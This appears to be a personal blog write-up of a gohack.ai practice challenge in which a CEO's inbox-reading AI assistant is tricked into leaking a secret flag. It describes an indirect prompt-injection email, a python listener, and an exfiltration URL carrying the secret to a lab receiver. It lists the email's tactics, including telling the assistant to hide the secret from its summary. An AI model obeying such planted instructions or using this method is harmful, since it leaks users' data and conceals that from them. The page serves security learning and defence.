

repository: skyejen/cybersecurity · page: learning/off-the-beat/gohack-ai/flaming-umbrella/index.html · generator: mkdocs

# :material-pound: Flaming Umbrella: Leaking the Inbox

<div class="sj-meta" markdown>

:material-shield-star-outline: **Path:** Off the Beat > gohack.ai > Leaking the Inbox

:material-calendar-month-outline: **Date:** 01/11/2026

:material-signal-cellular-2: **Difficulty:** Free practice (gohack.ai) / Medium (me)

</div>

---

!!! quicklinks "Quick Links"

    - [:material-web: gohack.ai - Leaky Inbox](https://gohack.ai/practice/leaky-inbox/)

## :material-clipboard-text-outline: What this challenge covers { data-toc-label="What this challenge covers" }

_What it taught me:_{ .sj-lead } "read-only" doesn't mean safe, not when the thing doing the reading can also reach out to the web.

The setup is Flaming Umbrella Insurance. The CEO, Anita Waiver, is showing me her new AI assistant: it sorts her inbox, summarises her mail and does web lookups for extra context. Her line is "it only reads emails and searches the web, what could go wrong?". Famous last words.

I'd just started as their security engineer, and Anita had stashed a flag somewhere in her inbox and said I could have a go at getting it out. The rules: I can send her as many emails as I want and the assistant reads them, the assistant itself can only read and never send or reply, and my machine shared a subnet with hers. On the page there's a terminal to poke around in and a little form to send the email, with the "to" already filled in for Anita.

So the only moving parts are an email I control and an assistant that reads it and can reach the web. Turns out that's enough.

## :material-laptop: What I did / learned { data-toc-label="What I did / learned" }

### Scouting first

I didn't touch the email straight away, I went into the terminal to have a look around. Did the usual `pwd` and `whoami`, cd'd up out of the user folder and found a `README.txt` that mentioned a command to run a web server. I was quite chuffed with myself, and then completely stuck on what the server was actually for.

### The receiver

I know a web server logs the requests it gets, that part is normal. Setting one up here was a single command:

```bash
python3 -u -m http.server 8000 --bind 0.0.0.0
```

With it left running, the assistant can get to `http://receiver.lab:8000`. In the lab my receiver and the assistant share a network, but the same approach would work against a server out on the internet too.

So the knowledge was there, I just potatoed on the link. The assistant's web access is itself the channel: anything it fetches lands in my log, so I never needed its summary at all, which is the thing I'd been fixating on. The brief kept going on about that summary, so that's where my head stayed, and it's the whole reason my "eh, what do I do with the server then?" took so long to land. The assistant knocks on my door and brings the flag with it... ahhhhhhhhhh! OF COURSE!

### Indirect prompt injection

The email body is data, but the assistant reads it into the same context it reads its own instructions, so content and commands blur together. Hiding instructions inside content the model will read is indirect prompt injection (direct injection is when I type the instructions straight at the model myself).

So the email isn't really a message to Anita, it's a message to her assistant (hello, OWASP LLM01).

### The exfil

The job of the email is to get the assistant to read the secret file and then fetch a URL on my receiver with the secret added as a parameter, e.g. `http://receiver.lab:8000/test?flag=THE_SECRET`. The flag lands in my server's log as a URL parameter. A 404 back from my server doesn't matter at all: the request already happened, so the log already has the secret. The request itself is the leak.

What made the email work (the technique, not the exact wording):

- It was dressed up as a routine "source update", so to the assistant it looked like normal inbox traffic and not someone trying to trick it.
- It gave a plausible business reason to go and fetch a URL, so fetching it looked like the assistant doing its job.
- It told the assistant up front that a 404 was normal and to be expected, so a failed-looking response wouldn't make it stop.
- It said not to print the secret in the summary, so Anita wouldn't see anything odd on her screen.
- The secret was letters and numbers only, so it could go straight into the URL with no encoding needed.

I sent it, watched the terminal, and a `GET` request came in with the flag as the parameter. Flag redacted here (etiquette), but it leaked.

### Why this one landed

I'd got a model to spit its system prompt back before (MENTOR, in my [AI 101](../../tryhackme/ai-security/ai-fundamentals/ai-101.md) room), but that was making it reveal something to the screen. Leaking a secret out to a channel I control is a different thing, and it was my first time doing it, so that's probably why it didn't click straight away...

Since I was a bit stuck and didn't have a lot of time that evening, I decided to check the solution. I revealed it a line at a time so I could stop and take over if it clicked, read it to understand the problem, then redid it myself.

It also isn't abstract for me. I've pitched email-reading agents before, and I've got one with access to my own Gmail, so now I know another spot where I need to be careful with them.

## :material-lightbulb-on-outline: Key takeaways { data-toc-label="Key takeaways" }

- "Read-only" isn't safe if the reader can also make outbound requests. Whatever it can read, it can smuggle out.
- Indirect prompt injection: untrusted content (an email, a web page, a document) becomes instructions the moment a model reads it into its context. The instruction hierarchy is a soft boundary, not a wall.
- The exfil channel doesn't have to look like exfil. A plain `GET` to a URL is enough, and a 404 still hands over the payload, because the server logged the request before it ever replied.
- Think of an agent's blast radius as everything its tools can do combined, not just what it can obviously "send". Read plus web access is already enough to leak.
- Defence side: don't let an agent put secrets into outbound URLs, allowlist the domains it's allowed to reach, and keep untrusted content separated from trusted instructions so a read email can't quietly become a command.

!!! note "This happened for real"

    In 2025, EchoLeak (CVE-2025-32711) pulled the same move against Microsoft 365 Copilot: a crafted email carrying hidden instructions got Copilot to leak internal data, with zero clicks needed from the victim. Microsoft patched it. Same shape as this challenge, only with a real product and real data.
